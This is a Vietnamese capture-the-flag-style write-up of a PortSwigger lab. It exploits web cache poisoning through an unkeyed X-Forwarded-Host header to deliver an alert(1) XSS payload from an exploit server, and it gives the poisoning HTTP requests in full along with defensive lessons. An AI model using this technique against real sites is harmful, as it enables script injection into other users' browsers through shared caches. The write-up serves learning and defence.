





# Write-up: Web cache poisoning with an unkeyed header

### Tổng quan
Khai thác lỗ hổng **Web Cache Poisoning** kết hợp **DOM-based XSS** trong ứng dụng web, nơi header `X-Forwarded-Host` là unkeyed và được sử dụng để tạo URL động trong thuộc tính `src` của script mà không được xử lý an toàn. Bằng cách poison cache với `X-Forwarded-Host` trỏ đến Exploit Server chứa payload XSS, kẻ tấn công khiến response cacheable thực thi `alert(1)` trong trình duyệt nạn nhân khi truy cập trang chủ.

### Mục tiêu
- Xác định header unkeyed `X-Forwarded-Host`, poison cache với payload XSS thông qua Exploit Server, khiến trang chủ thực thi `alert(1)` trong trình duyệt nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác

#### 1. Kiểm tra xem có web cache tồn tại không
- Thử gửi request bất kỳ hai lần (ví dụ: `GET /`):  
  ```
  GET / HTTP/2
  Host: 0au9028c29de0123y0za678900bc00zy.web-security-academy.net
  ```  
- Quan sát response header:  
  - Lần 1: `X-Cache: miss`  
      
  - Lần 2: `X-Cache: hit`  
      
- Kết luận: Server sử dụng cache. Header `X-Forwarded-Host` được sử dụng để tạo URL động trong thuộc tính `src` của script, tiềm ẩn nguy cơ XSS.

#### 2. Khai thác web cache
- Thiết lập Exploit Server với payload XSS (ví dụ: `alert(1)`):  
  

- Gửi request `GET /` với header `X-Forwarded-Host` hai lần để poison cache:  
  ```
  GET / HTTP/2
  Host: 0au9028c29de0123y0za678900bc00zy.web-security-academy.net
  X-Forwarded-Host: exploit-0au9028c29de0123y0za678900bc00zy.exploit-server.net
  ```  
- **Giải thích**: Header `X-Forwarded-Host` là unkeyed, không được include trong cache key, nên URL trong thuộc tính `src` của script trỏ đến Exploit Server chứa payload XSS, khiến response cacheable thực thi `alert(1)`.  
  

- Kết quả: XSS thực thi thành công, `alert(1)` được chạy trong trình duyệt nạn nhân, lab hoàn thành.  
  

### Bài học rút ra
- Hiểu cách khai thác **Web Cache Poisoning** thông qua header unkeyed (`X-Forwarded-Host`), chèn payload XSS vào response cacheable để thực thi mã độc trong trình duyệt nạn nhân.  
- Nhận thức tầm quan trọng của việc xác thực và lọc header người dùng, đồng bộ hóa cache key với các header được sử dụng, và vô hiệu hóa cache cho các endpoint động để ngăn chặn XSS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Web Cache Poisoning** thông qua header unkeyed, nhấn mạnh tầm quan trọng của việc cấu hình cache an toàn và xử lý header để ngăn chặn thực thi mã độc trong trình duyệt nạn nhân. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 10/2025.*